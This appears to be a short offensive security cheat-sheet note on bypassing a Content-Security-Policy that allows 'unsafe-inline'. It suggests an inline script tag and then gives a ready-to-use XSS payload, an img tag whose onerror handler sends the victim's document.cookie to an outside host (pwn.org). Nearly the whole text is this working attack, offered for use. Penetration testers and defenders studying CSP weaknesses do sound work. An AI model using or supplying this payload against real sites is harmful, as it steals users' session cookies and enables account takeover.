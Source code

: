 # Bypass Content-Security-Policy

>'unsafe-inline' :

	using inline script tag : `<script>/*some stuff*/</script>`

	if its blocked we can just use : `<img src onerror="location.href='//pwn.org/index.php?content='.concat(document.cookie);">`